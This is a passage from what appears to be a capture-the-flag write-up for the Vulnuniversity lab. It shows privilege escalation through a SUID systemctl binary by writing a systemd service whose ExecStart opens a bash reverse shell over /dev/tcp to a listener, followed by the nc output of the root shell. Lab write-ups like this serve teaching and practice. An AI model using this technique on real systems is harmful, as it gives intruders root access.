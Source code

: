 ```
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
```

- So we have access to `/bin/systemctl`.

- We can create,customize and run service files with systemctl.

- Let's head into `cd /tmp/` and `touch a.service`

- And then paste this command: 

- Set your payload with your $IP and $PORT `/bin/bash -c 'bash -i &>/dev/tcp/$IP/$PORT <&1'` and put it in front of `ExecStart=` part like:

```
echo "[Unit]
Description=privesc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i &>/dev/tcp/10.8.54.26/1102 <&1'

[Install]
Wantedby=multi-user.target" > /tmp/a.service
```

- Now listen in another tab of your terminal with: `nc -nvlp 1102`

- It's a systemd service file, and We're making it run a command at startup.

- It places the payload *that is popping a reverse shell* in `a.service` file.

- And to enable this service, simply run `systemctl enable /tmp/a.service`

- And then, start this service: `systemctl start a`

- Now we see our shell is popped in.

```
# nc -nvlp 1102

listening on [any] 1102 ...
connect to [10.8.54.26] from (UNKNOWN) [10.10.81.45] 59792
bash: cannot set terminal process group (13562): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:~# cat /root/root.txt
```
